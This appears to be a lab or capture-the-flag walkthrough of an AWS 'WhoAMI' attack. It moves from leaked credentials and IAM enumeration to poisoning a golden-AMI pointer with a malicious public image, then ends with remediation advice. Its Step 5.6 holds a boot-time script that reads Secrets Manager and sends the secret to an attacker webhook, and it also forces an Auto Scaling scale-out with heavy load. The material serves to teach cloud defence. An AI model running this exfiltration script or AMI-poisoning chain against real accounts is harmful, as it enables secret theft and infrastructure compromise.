

# Walkthrough

## Step 1: Identity Confirmation

This is the BeaverDam ticketing site you will be targeting:



Verify who you are with the leaked credentials.

```bash
aws sts get-caller-identity --profile attacker
```

Output:

```json
{
    "UserId": "AIDAXXXXXXXXXXXXXXXXX",
    "Account": "123456789012",
    "Arn": "arn:aws:iam::123456789012:user/gnawlab/gnawlab-golden-attacker-xxxxxxxx"
}
```

---

## Step 2: Permission Enumeration

Always enumerate every permission source: user inline, user attached, group membership, group inline, group attached.

```bash
USER_NAME="gnawlab-golden-attacker-xxxxxxxx"

# User inline policies
aws iam list-user-policies --user-name "$USER_NAME" --profile attacker
```

Output:

```json
{
    "PolicyNames": [
        "gnawlab-golden-attacker-policy-xxxxxxxx"
    ]
}
```

```bash
# Read the inline policy
aws iam get-user-policy \
  --user-name "$USER_NAME" \
  --policy-name gnawlab-golden-attacker-policy-xxxxxxxx \
  --profile attacker
```

```bash
# User attached managed policies
aws iam list-attached-user-policies --user-name "$USER_NAME" --profile attacker

# Group memberships
aws iam list-groups-for-user --user-name "$USER_NAME" --profile attacker
```

Both return empty. The user has no group memberships and no managed policies.

**Findings:** Read-only permissions across IAM, EC2, ASG, SSM, Secrets Manager, Lambda, and CloudWatch Logs. No write access to any service.

---

## Step 3: Infrastructure Reconnaissance

Discover how the platform deploys its EC2 instances.

### 3.1 Find the Auto Scaling Group

```bash
aws autoscaling describe-auto-scaling-groups \
  --query 'AutoScalingGroups[?contains(AutoScalingGroupName, `gnawlab-golden`)].{Name:AutoScalingGroupName,LaunchTemplate:LaunchTemplate,Min:MinSize,Max:MaxSize}' \
  --profile attacker
```

Note the Launch Template ID.

### 3.2 Inspect the Launch Template

```bash
aws ec2 describe-launch-template-versions \
  --launch-template-id lt-xxxxxxxxxxxxxxxxx \
  --query 'LaunchTemplateVersions[0].LaunchTemplateData.{ImageId:ImageId,IamInstanceProfile:IamInstanceProfile}' \
  --profile attacker
```

Output:

```json
{
    "ImageId": "resolve:ssm:/gnawlab/golden/xxxxxxxx/golden-ami/web",
    "IamInstanceProfile": {
        "Name": "gnawlab-golden-instance-profile-xxxxxxxx"
    }
}
```

**Key finding:** The Launch Template does not hard-code an AMI ID. It resolves the AMI at launch time from an SSM parameter.

### 3.3 Read the SSM Parameter

```bash
aws ssm get-parameter \
  --name "/gnawlab/golden/xxxxxxxx/golden-ami/web" \
  --profile attacker
```

Note the current `Value` (the legitimate golden AMI ID). You will use this to detect when the Lambda changes it.

### 3.4 Trace the Instance Profile to the Secret

```bash
# Get the role from the instance profile
aws iam get-instance-profile \
  --instance-profile-name gnawlab-golden-instance-profile-xxxxxxxx \
  --query 'InstanceProfile.Roles[0].RoleName' \
  --profile attacker

# List the role's inline policies
aws iam list-role-policies \
  --role-name gnawlab-golden-instance-role-xxxxxxxx \
  --profile attacker

# Read the inline policy — note the Secrets Manager Resource ARN
aws iam get-role-policy \
  --role-name gnawlab-golden-instance-role-xxxxxxxx \
  --policy-name gnawlab-golden-instance-read-flag-xxxxxxxx \
  --profile attacker
```

Output excerpt:

```json
{
    "Statement": [{
        "Sid": "ReadFlagSecret",
        "Effect": "Allow",
        "Action": ["secretsmanager:GetSecretValue", "secretsmanager:DescribeSecret"],
        "Resource": "arn:aws:secretsmanager:us-east-1:123456789012:secret:gnawlab-golden-flag-xxxxxxxx-..."
    }]
}
```

**Key finding:** Every EC2 instance launched by the ASG — including any you launch via the WhoAMI attack — inherits this instance profile. A malicious AMI can use it to call `GetSecretValue` on the flag secret.

Note the secret ARN. You will need it in the malicious AMI user_data.

---

## Step 4: Lambda Code Analysis

Discover why the golden AMI update mechanism is vulnerable.

First, discover the Lambda function name:

```bash
aws lambda list-functions \
  --query 'Functions[?contains(FunctionName, `gnawlab-golden`)].FunctionName' \
  --profile attacker
```

Then retrieve the function details:

```bash
aws lambda get-function \
  --function-name gnawlab-golden-updater-xxxxxxxx \
  --profile attacker
```

The `Code.Location` field contains a pre-signed S3 URL. Download and inspect the code:

```bash
LAMBDA_URL=$(aws lambda get-function \
  --function-name gnawlab-golden-updater-xxxxxxxx \
  --query 'Code.Location' --output text --profile attacker)

curl -s -o /tmp/lambda.zip "$LAMBDA_URL"
unzip -o /tmp/lambda.zip -d /tmp/lambda_code
cat /tmp/lambda_code/lambda_function.py
```

Read the key section:

```python
# VULNERABLE: no Owners filter
resp = ec2.describe_images(
    Filters=[
        {'Name': 'name',  'Values': [f'{AMI_NAME_PREFIX}*']},
        {'Name': 'state', 'Values': ['available']},
    ]
)
```

Also check the environment variables for the name prefix and SSM parameter:

```bash
aws lambda get-function-configuration \
  --function-name gnawlab-golden-updater-xxxxxxxx \
  --query 'Environment.Variables' \
  --profile attacker
```

Output:

```json
{
    "AMI_NAME_PREFIX": "gnawlab-golden-ticketing-xxxxxxxx-",
    "SSM_PARAMETER_NAME": "/gnawlab/golden/xxxxxxxx/golden-ami/web"
}
```

**Root cause:** `ec2.describe_images` without `Owners` returns public AMIs from any AWS account whose name matches the prefix. The Lambda sorts by `CreationDate` and picks the newest — so a newer public AMI with a matching name from a foreign account wins.

---

## Step 5: Prepare the Malicious AMI (Your Personal AWS Account)

Switch to your personal AWS account for this step.

### 5.1 Prepare a Webhook Endpoint

Set up an endpoint to receive the flag. Use a free service such as [webhook.site](https://webhook.site) and copy your unique URL:

```
https://webhook.site/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx
```

### 5.2 Configure Your Personal AWS Profile

```bash
export AWS_PROFILE=<your-personal-profile>
export AWS_DEFAULT_REGION=us-east-1

aws sts get-caller-identity
```

The account must be different from the target account that contains the vulnerable Auto Scaling Group.

### 5.3 Create an SSH Key Pair

```bash
aws ec2 create-key-pair \
  --key-name whoami-xxxxxxxx \
  --query 'KeyMaterial' \
  --output text > ~/whoami-xxxxxxxx.pem

chmod 400 ~/whoami-xxxxxxxx.pem
```

### 5.4 Create a Temporary Security Group

Use the default VPC in your personal account and allow SSH only from your current public IP.

```bash
VPC_ID=$(aws ec2 describe-vpcs \
  --filters Name=is-default,Values=true \
  --query 'Vpcs[0].VpcId' \
  --output text)

SUBNET_ID=$(aws ec2 describe-subnets \
  --filters Name=vpc-id,Values="$VPC_ID" Name=default-for-az,Values=true \
  --query 'Subnets[0].SubnetId' \
  --output text)

MY_IP=$(curl -s https://ifconfig.co/ip)/32

SG_ID=$(aws ec2 create-security-group \
  --group-name whoami-ami-baker-xxxxxxxx \
  --description "Temporary AMI baker SSH access" \
  --vpc-id "$VPC_ID" \
  --query 'GroupId' \
  --output text)

aws ec2 authorize-security-group-ingress \
  --group-id "$SG_ID" \
  --protocol tcp \
  --port 22 \
  --cidr "$MY_IP"
```

### 5.5 Launch a Temporary EC2 Instance

Resolve the latest Amazon Linux 2023 AMI from AWS Systems Manager instead of hard-coding an AMI ID.

```bash
BASE_AMI=$(aws ssm get-parameter \
  --name /aws/service/ami-amazon-linux-latest/al2023-ami-kernel-default-x86_64 \
  --query 'Parameter.Value' \
  --output text)

INSTANCE_ID=$(aws ec2 run-instances \
  --image-id "$BASE_AMI" \
  --instance-type t3.micro \
  --key-name whoami-xxxxxxxx \
  --subnet-id "$SUBNET_ID" \
  --security-group-ids "$SG_ID" \
  --associate-public-ip-address \
  --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=whoami-ami-baker-xxxxxxxx}]' \
  --query 'Instances[0].InstanceId' \
  --output text)

echo "Instance: $INSTANCE_ID"
aws ec2 wait instance-running --instance-ids "$INSTANCE_ID"
```

If `t3.micro` is not available in your account, list the currently free-tier-eligible instance types:

```bash
aws ec2 describe-instance-types \
  --filters Name=free-tier-eligible,Values=true \
  --query 'InstanceTypes[*].InstanceType' \
  --output table
```

### 5.6 Install the Malicious Boot Service

Replace `<SECRET_ARN>` with the ARN noted in Step 3.4 and `<YOUR_WEBHOOK_URL>` with your endpoint.

```bash
PUBLIC_IP=$(aws ec2 describe-instances \
  --instance-ids "$INSTANCE_ID" \
  --query 'Reservations[0].Instances[0].PublicIpAddress' \
  --output text)

ssh -i ~/whoami-xxxxxxxx.pem ec2-user@"$PUBLIC_IP"
```

On the instance:

```bash
sudo dnf install -y awscli curl

sudo tee /usr/local/bin/exfil.sh >/dev/null <<'SCRIPT'
#!/bin/bash
set -eux

# Wait for network
sleep 15

SECRET_ARN="<SECRET_ARN>"
WEBHOOK_URL="<YOUR_WEBHOOK_URL>"

# Get IMDSv2 token
TOKEN=$(curl -s -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# Get region from IMDS
REGION=$(curl -s \
  -H "X-aws-ec2-metadata-token: $TOKEN" \
  "http://169.254.169.254/latest/meta-data/placement/region")

# Read the flag secret using the instance profile
SECRET=$(aws secretsmanager get-secret-value \
  --region "$REGION" \
  --secret-id "$SECRET_ARN" \
  --query SecretString \
  --output text)

# Exfiltrate to attacker-controlled endpoint
curl -s -X POST "$WEBHOOK_URL" \
  -H "Content-Type: application/json" \
  -d "$SECRET"
SCRIPT

sudo chmod +x /usr/local/bin/exfil.sh

sudo tee /etc/systemd/system/exfil.service >/dev/null <<'UNIT'
[Unit]
Description=Exfil on boot
After=network-online.target
Wants=network-online.target

[Service]
Type=oneshot
ExecStart=/usr/local/bin/exfil.sh
RemainAfterExit=yes

[Install]
WantedBy=multi-user.target
UNIT

sudo systemctl daemon-reload
sudo systemctl enable exfil.service
systemctl is-enabled exfil.service

exit
```

### 5.7 Create the Malicious AMI

Name it with the same prefix as the legitimate AMI but with a later date suffix so the Lambda picks it as "most recent".

```bash
# Use a far-future date to guarantee sorting as the newest
EVIL_AMI_ID=$(aws ec2 create-image \
  --instance-id "$INSTANCE_ID" \
  --name "gnawlab-golden-ticketing-xxxxxxxx-99991231" \
  --no-reboot \
  --query 'ImageId' \
  --output text)

echo "Malicious AMI: $EVIL_AMI_ID"

# Wait for the AMI to become available
aws ec2 wait image-available --image-ids "$EVIL_AMI_ID"
```

### 5.8 Make the AMI Public

```bash
aws ec2 modify-image-attribute \
  --image-id "$EVIL_AMI_ID" \
  --launch-permission '{"Add":[{"Group":"all"}]}'

echo "AMI is now public."
```

If this fails because AMI Block Public Access is enabled in your personal account, temporarily disable it for `us-east-1`, then retry the public sharing command:

```bash
aws ec2 get-image-block-public-access-state --region us-east-1

aws ec2 disable-image-block-public-access --region us-east-1

aws ec2 modify-image-attribute \
  --image-id "$EVIL_AMI_ID" \
  --launch-permission '{"Add":[{"Group":"all"}]}'
```

Confirm that the AMI is public:

```bash
aws ec2 describe-images \
  --image-ids "$EVIL_AMI_ID" \
  --query 'Images[0].{ImageId:ImageId,Name:Name,Public:Public,OwnerId:OwnerId,CreationDate:CreationDate}' \
  --output table
```

### 5.9 Terminate the Temporary Instance

```bash
aws ec2 terminate-instances --instance-ids "$INSTANCE_ID"
```

---

## Step 6: Wait for Lambda — Verify SSM Value Changes

Switch back to the attacker profile. If you opened a new shell session, re-set the variable first:

```bash
EVIL_AMI_ID="ami-xxxxxxxxxxxxxxxxx"  # Replace with your malicious AMI ID from Step 5.7
```

Poll the SSM parameter until the Lambda overwrites it with your malicious AMI ID.

```bash
echo "Waiting for Lambda to update SSM parameter..."

while true; do
  CURRENT=$(aws ssm get-parameter \
    --name "/gnawlab/golden/xxxxxxxx/golden-ami/web" \
    --query 'Parameter.Value' \
    --output text \
    --profile attacker)
  echo "Current AMI pointer: $CURRENT"
  [ "$CURRENT" = "$EVIL_AMI_ID" ] && echo "SSM updated! Lambda picked up the malicious AMI." && break
  sleep 15
done
```

This should complete within 1–2 minutes (Lambda runs every minute).

---

## Step 7: Trigger ASG Scale-Out

Apply HTTP load to the ticketing site to push CPU above the 30% target tracking threshold. Use a load-testing tool available on your machine.

### Option A: k6

Create a k6 script:

```bash
cat > /tmp/golden-drift-k6.js <<'EOF'
import http from 'k6/http';
import { check, sleep } from 'k6';

export const options = {
  scenarios: {
    scale_out_load: {
      executor: 'constant-vus',
      vus: 800,
      duration: '5m',
    },
  },
  thresholds: {
    http_req_failed: ['rate<0.20'],
  },
};

const BASE_URL = 'http://<ALB-DNS>';

export default function () {
  const res = http.get(`${BASE_URL}/`);
  check(res, {
    'status is 200 or overloaded': (r) => r.status === 200 || r.status >= 500,
  });
  sleep(0.1);
}
EOF
```

Run it:

```bash
k6 run /tmp/golden-drift-k6.js
```

### Option B: ApacheBench

```bash
ab -n 300000 -c 800 -t 300 http://<ALB-DNS>/
```

### Verify Scale-Out

In a second terminal, watch the Auto Scaling Group while either k6 or ApacheBench is running:

```bash
while true; do
  date
  aws autoscaling describe-auto-scaling-groups \
    --auto-scaling-group-names "gnawlab-golden-asg-xxxxxxxx" \
    --query 'AutoScalingGroups[0].{Desired:DesiredCapacity,Instances:Instances[*].{Id:InstanceId,Lifecycle:LifecycleState,Health:HealthStatus}}' \
    --profile attacker
  sleep 30
done
```

Run the load test for several minutes. The target tracking policy uses CloudWatch datapoints, so the desired capacity can take a few minutes to move from 1 to 2.

---

## Step 8: Verify a New Instance Launched from the Malicious AMI

```bash
aws autoscaling describe-auto-scaling-groups \
  --query 'AutoScalingGroups[?contains(AutoScalingGroupName, `gnawlab-golden`)].Instances[*].{InstanceId:InstanceId,HealthStatus:HealthStatus,LaunchTemplate:LaunchTemplate}' \
  --profile attacker
```

You should see two instances. To confirm one booted from the malicious AMI:

```bash
aws ec2 describe-instances \
  --filters "Name=tag:Name,Values=gnawlab-golden-asg-instance-*" \
  --query 'Reservations[*].Instances[*].{InstanceId:InstanceId,ImageId:ImageId,State:State.Name}' \
  --profile attacker
```

One of them will show `ImageId: ami-EVIL` (your malicious AMI ID).

---

## Step 9: Capture the Flag

Check your webhook endpoint. Within 30-60 seconds of the malicious instance booting, you should receive a POST request containing the full secrets bundle:

```json
{
  "db_host": "ticketing-db.internal.beaverdam.com",
  "db_port": 5432,
  "db_name": "ticketing_prod",
  "db_user": "ticketing_app",
  "db_password": "Tr0ub4dor&3-internal",
  "payment_api_key": "sk_live_beaverdam_payments_xxxxxxxxxxxxxxxx",
  "smtp_password": "BeaverDamSmtp!2026",
  "flag": "FLAG{whoami_image_name_confusion_complete}"
}
```

Extract the flag:

```
FLAG{whoami_image_name_confusion_complete}
```

---

## Attack Chain Summary

```
1. Leaked Access Key
   ↓ sts:GetCallerIdentity — confirm IAM user identity
2. iam:ListUserPolicies
   ↓ discover inline policy name
3. iam:GetUserPolicy
   ↓ read-only permissions across IAM, EC2, ASG, SSM, Lambda, Secrets Manager
4. iam:ListAttachedUserPolicies
   ↓ no managed policies
5. iam:ListGroupsForUser
   ↓ no group membership
6. autoscaling:DescribeAutoScalingGroups
   ↓ Launch Template ID found
7. ec2:DescribeLaunchTemplateVersions
   ↓ ImageId = resolve:ssm:/gnawlab/golden/.../golden-ami/web
8. ssm:GetParameter
   ↓ note current golden AMI ID
9. iam:GetInstanceProfile
   ↓ role name: gnawlab-golden-instance-role-xxxxxxxx
10. iam:GetRolePolicy
    ↓ secretsmanager:GetSecretValue scoped to flag secret ARN
11. lambda:ListFunctions
    ↓ discover gnawlab-golden-updater-xxxxxxxx
12. lambda:GetFunction
    ↓ download source — describe_images has no Owners filter
13. lambda:GetFunctionConfiguration
    ↓ read AMI_NAME_PREFIX env var
14. Register malicious public AMI (personal AWS account)
    ↓ ec2:CreateImage + ec2:ModifyImageAttribute — name matches prefix with far-future date
15. Lambda tick (within 1 minute)
    ↓ ssm:PutParameter — golden pointer overwritten with malicious AMI ID
16. ssm:GetParameter
    ↓ confirm Value = malicious AMI ID
17. Load test — ASG scale-out
    ↓ CPU > 30% → desired 1→2 → RunInstances → resolve:ssm: → malicious AMI
18. secretsmanager:GetSecretValue via inherited instance profile
    ↓ HTTP POST to attacker webhook
19. FLAG{whoami_image_name_confusion_complete}
```

---

## Key Techniques

### The `resolve:ssm:` Launch Template Pattern

AWS supports `resolve:ssm:<parameter-name>` as the `ImageId` in a Launch Template. Instead of storing an AMI ID directly, the Launch Template stores a reference to an SSM parameter. Each time the ASG calls `RunInstances`, EC2 resolves the current value of that parameter at that moment.

This enables golden AMI rotation without modifying Launch Templates — but it means the security boundary for "which AMI gets launched" is now the SSM parameter, not the Launch Template.

### The WhoAMI Vulnerability

`ec2:DescribeImages` without an `Owners` filter returns:

1. AMIs owned by the calling account
2. AMIs shared with the calling account
3. **All public AMIs from any AWS account on the planet**

When automation selects "the most recent AMI matching a name prefix" from this unrestricted result set, any attacker who can register a public AMI with a matching name and a newer `CreationDate` can inject their image into the selection.

The fix is a single line:

```python
# Fix: restrict to the owning account
resp = ec2.describe_images(
    Owners=[os.environ['ACCOUNT_ID']],   # <-- this line
    Filters=[
        {'Name': 'name', 'Values': [f'{AMI_NAME_PREFIX}*']},
        {'Name': 'state', 'Values': ['available']},
    ]
)
```

### IAM Instance Profile Inheritance

The Launch Template specifies an IAM instance profile. Every EC2 instance the ASG launches — regardless of which AMI it boots from — receives this profile. The malicious AMI leverages the profile's `secretsmanager:GetSecretValue` permission to read the flag.

---

## Lessons Learned

### 1. The `Owners` Filter Is Not Optional

Omitting `Owners` from `describe_images` makes the AMI selection vulnerable to name confusion from any of the millions of public AMIs in AWS. Always specify either `Owners=['self']` or explicit account IDs.

### 2. SSM Parameters Are a Trust Boundary

The `resolve:ssm:` pattern is convenient, but it shifts the trust boundary from the Launch Template (which requires EC2 write access to change) to the SSM parameter (which may have looser write permissions). The SSM parameter that a Launch Template references should be protected as carefully as the AMI itself.

### 3. AMI Names Are Not Identities

An AMI name is an arbitrary string. Any AWS account can register a public AMI with any name. Automation that selects AMIs by name without an ownership filter is selecting by an unverified label, not a verified identity.

### 4. Instance Profiles Apply to All Launched Instances

The IAM instance profile attached to a Launch Template is not specific to a particular AMI. Any instance the ASG launches — legitimate or malicious — inherits the same profile and its permissions.

---

## Remediation

### Fix the Lambda

Add the `Owners` filter:

```python
ACCOUNT_ID = boto3.client('sts').get_caller_identity()['Account']

resp = ec2.describe_images(
    Owners=[ACCOUNT_ID],   # Only consider AMIs owned by this account
    Filters=[
        {'Name': 'name',  'Values': [f'{AMI_NAME_PREFIX}*']},
        {'Name': 'state', 'Values': ['available']},
    ]
)
```

### Use AMI Signing or Tagging Policies

Use EC2 Image Builder with signing, or enforce an IAM condition on the SSM `PutParameter` action that requires a specific tag (e.g., `Approved=true`) on the AMI before the pointer is updated.

### Protect the SSM Parameter

Restrict `ssm:PutParameter` on the golden AMI pointer to only the automation role, using a resource-level condition:

```json
{
  "Effect": "Deny",
  "Action": "ssm:PutParameter",
  "Resource": "arn:aws:ssm:*:*:parameter/gnawlab/golden/*",
  "Condition": {
    "StringNotEquals": {
      "aws:PrincipalArn": "arn:aws:iam::123456789012:role/approved-updater-role"
    }
  }
}
```

### Monitor for Foreign-Owned AMIs at Launch

Use CloudTrail + EventBridge to alert when an ASG launches an instance from an AMI not owned by your account:

```
EventBridge pattern:
  source: aws.ec2
  detail-type: AWS API Call via CloudTrail
  detail.eventName: RunInstances
  (filter: OwnerId of imageId != account_id)
```
